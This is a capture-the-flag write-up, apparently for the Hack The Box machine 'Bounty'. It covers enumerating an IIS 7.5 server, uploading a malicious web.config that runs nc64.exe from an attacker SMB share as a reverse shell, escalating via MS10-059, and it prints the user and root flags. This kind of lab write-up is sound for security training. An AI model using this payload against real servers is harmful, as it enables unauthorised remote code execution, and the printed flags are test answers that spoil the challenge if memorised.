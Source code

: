 # Bounty
>Author : Xyan1d3
>Date : 10th July 2021
>IP : 10.10.10.93
>OS : Windows
>Difficulty : Easy
# Initial Enumeration
## Nmap
```sql
# Nmap 7.91 scan initiated Sat Jul 10 01:23:12 2021 as: nmap -sC -sV -v -oN nmap/bounty 10.10.10.93
Nmap scan report for 10.10.10.93
Host is up (0.078s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Bounty
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

We see that the box is running `IIS 7.5` which can help us find out the windows version running.
`IIS 7.5` is used mainly by `Windows Server 2008`.

## Gobuster
```python
/transfer.aspx        (Status: 200) [Size: 941]
/uploadedfiles/       (Status: 403) [Size: 1233]
```

## Initial FootHold
We visit the `transfer.aspx` and find out a page for uploading files which we try to upload `asp` and `aspx` reverse shells.
But, It turns out it is not allowed.
So, I tried to use an `web.config` file which is like an `ASP.NET` configuration.

Exploit : https://gist.githubusercontent.com/gazcbm/ea7206fbbad83f62080e0bbbeda77d9c/raw/8173f5041c9a69cc58e980717ebe044f8eff9e9f/shell%2520command%2520web.config

I make a `www` directory and hosted an smb share with `nc64.exe` in it with `smbserver.py` and make that `web.config` to connect to my share and execute the `nc64.exe` and grant me a shell in the box.

My modified `Web.config` looks like this : 
```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
Set objShell = CreateObject("WScript.Shell")
objShell.Exec("\\10.10.14.18\magisk\nc64.exe -e cmd.exe 10.10.14.18 8888")
Response.write("<!-"&"-")
%>
-->
```

We then upload this `web.config` file and visit the `http://10.10.10.93/uploadedfiles/web.config` to get the command to execute and get us a shell on the box.
![[Pasted image 20210710021656.png]]

## Getting the user Flag
The `user.txt` was a hidden file which can be revealed with a `dir /ah`.
```python
c:\Users\merlin\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 5084-30B0

 Directory of c:\Users\merlin\Desktop

05/31/2018  12:17 AM    <DIR>          .
05/31/2018  12:17 AM    <DIR>          ..
               0 File(s)              0 bytes
               2 Dir(s)  11,786,936,320 bytes free

c:\Users\merlin\Desktop>dir /ah
dir /ah
 Volume in drive C has no label.
 Volume Serial Number is 5084-30B0

 Directory of c:\Users\merlin\Desktop

05/30/2018  12:22 AM               282 desktop.ini
05/30/2018  11:32 PM                32 user.txt
               2 File(s)            314 bytes
               0 Dir(s)  11,786,936,320 bytes free

c:\Users\merlin\Desktop>type user.txt
type user.txt
e29ad89891462e0b09741e3082f44a2f
```
# Root Escalation
The System we are up against is an `Windows Server 2008 R2` unpatched.
So, The best exploit which comes to my mind is `MS10-059` or `Chimichurri`.

![[Pasted image 20210710022716.png]]

## Getting the root Flag
```python
c:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 5084-30B0

 Directory of c:\Users\Administrator\Desktop

05/31/2018  12:18 AM    <DIR>          .
05/31/2018  12:18 AM    <DIR>          ..
05/31/2018  12:18 AM                32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)  11,786,936,320 bytes free

c:\Users\Administrator\Desktop>type root.txt
type root.txt
c837f7b699feef5475a0c079f9d4f5ea
```